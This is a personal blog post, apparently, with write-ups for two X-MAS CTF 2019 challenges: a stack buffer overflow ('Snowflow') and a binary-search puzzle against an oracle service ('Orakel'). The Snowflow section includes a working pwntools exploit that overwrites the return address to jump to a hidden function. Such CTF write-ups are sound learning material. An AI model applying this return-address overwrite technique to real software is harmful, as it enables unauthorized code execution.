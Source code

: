 ```yaml
---
layout: post
title: XMas CTF
excerpt: "This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn."
categories: [Writeups, XMasCTF'19]
tags: [pwn, ppc]
---
```

This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn.

### Pwn

#### Snowflow
```
Snow, snow, snow... there is snow everywhere! I'm feeling a little bit overwhelmed... or would I say overflowed?
```

Running a file check on the challenge we see that it is stripped which means there are no debugging symbols.
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.  
2, for GNU/Linux 3.2.0, BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
```

My second step was to open the binary in Ghidra. I saw that the main function had a buffer which could be overflowed. 
```
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
```

Looking at the other functions in the binary, I noticed a function at `0x401156` which contained `puts("X-MAS{REAL FLAG ON THE SERVER}");` Okay, looks like we just need to overflow to run this function which will display for us the real flag on the server. 

The first step was to determine the offset. As this is a 64 bit program, I use cyclic from pwntools and send a 512 length string. I attach GDB so that when it crashes I can look at the registers. For 64 bit pwn, RIP is not actually overflow, so I look at RSP for the offset. 

```
$rsp : 0x00007ffe59e19be8 → "aafaaagaaahaaa
```

I then use cyclic_find from pwntools to identify that the offset is 18. The last step is to add a 64 bit packed address of the function we want to execute which is easy using pwntools. My final solution script looks like this.

```python
from pwn import *  
  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./chall")  
  
#gdb.attach(r)  
  
r = remote("challs.xmas.htsp.ro", 12006)  
  
r.recvline()  
  
payload = ""  
  
#payload += cyclic(512)  
# offset is 18  
  
payload += "A" * 18  
  
payload += p64(0x401156)  
  
r.sendline(payload)  
  
r.interactive()
```

### PPC

#### Orakel
```
We have finally linked up with the famous Lapland Oracle, that knows and sees all!
Can you guess his secret word?

Remote server: challs.xmas.htsp.ro 13000
```

When connecting to the server, we see that we are given 1000 opportunities to guess the correct key. After brute spamming characters, I deemed the key length to be around 100 characters. This means our program needs to be quite efficient!

The first algorithm which came to mind was binary search. However, after failing to implementing it multiple  times I still couldn't get it to work. The trick was realizing that at each character, the "score" would firrst decrease, then increase if we went from a - > Z. I found an interesting article on how to find the minimum in such a sequence [here](https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/ "https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/"). 

In my solution, I also chose to optimize the searching by implementing a valueDict array which stored the searched strings for each length and their scores. This is a dynamic programming style approach which stops the program from wasting a search on something we already looked for. My final solution didn't cleanly recieve the flag, so I used `context.log_level = "debug"` to display all sent and recieved text to retrieve the flag. Below is my final solution which got the flag in ~800 attempts.

```python
from pwn import *
from time import sleep
import regex as re
import string

context.log_level = "debug"

r = remote("challs.xmas.htsp.ro", 13000)
r.recvuntil("Luck.")
r.recvline()

bestScore = 99999
attempts = 1

regexp = re.compile(r": (.*)")

def getScore(inpStr):
    global attempts
    attempts += 1
    r.sendline(inpStr)
    inpLine = r.recv()
    score = int(regexp.search(inpLine).group(1))
    return score

valueDict = {}

def getScoreEff(inpStr):
    global valueDict
    if(inpStr in valueDict):
        return valueDict[inpStr]
    else:
        retVal = getScore(inpStr)
        valueDict[inpStr] = retVal
        return retVal

r.sendline("A")
sleep(1)
r.recv()
r.recv()

# Begin search char by char assuming length max is 100

searchSpace = []
foundKey = ""
currScore = 99999

for i in range(65, 122 + 1):
    if i <= 90 or i >= 97:
        searchSpace.append(i)

for i in range(100):
    if currScore < 0:
        break
    # for each char
    low = 0
    high = len(searchSpace) - 1
    mid = 0

    while(low < high):

        mid = low + ((high - low) / 2)

        #print(str(low) + " " + str(mid) + " " + str(high))

        #lowScore = getScoreEff(chr(searchSpace[low]))
        midScore = getScoreEff(foundKey + chr(searchSpace[mid]))
        midScoreRight = getScoreEff(foundKey + chr(searchSpace[mid + 1]))
        #highScore = getScoreEff(chr(searchSpace[high]))

        #print(str(lowScore) + " " + str(midScore) + " " + str(highScore))

        if midScore < midScoreRight:
            high = mid
        else:
            low = mid + 1

    foundKey += chr(searchSpace[low])
    currScore = getScoreEff(foundKey)
    print(foundKey + " with score of: " + str(getScoreEff(foundKey)) + ", attempts: " + str(attempts))
    currScore = getScoreEff(foundKey)
    valueDict.clear()

    #print("Min found at: " + str(searchSpace[mid]) + ", with a value of: " + str(getScore(chr(searchSpace[mid]))))   

r.interactive()
```

## Concluding thoughts

Solving the few problems that I did was great, especially seeing my orakel script crank through the characters and the score lowering as it pressed onward. I do wish I had more time to spend on this CTF as we might have been able to place higher as a team.
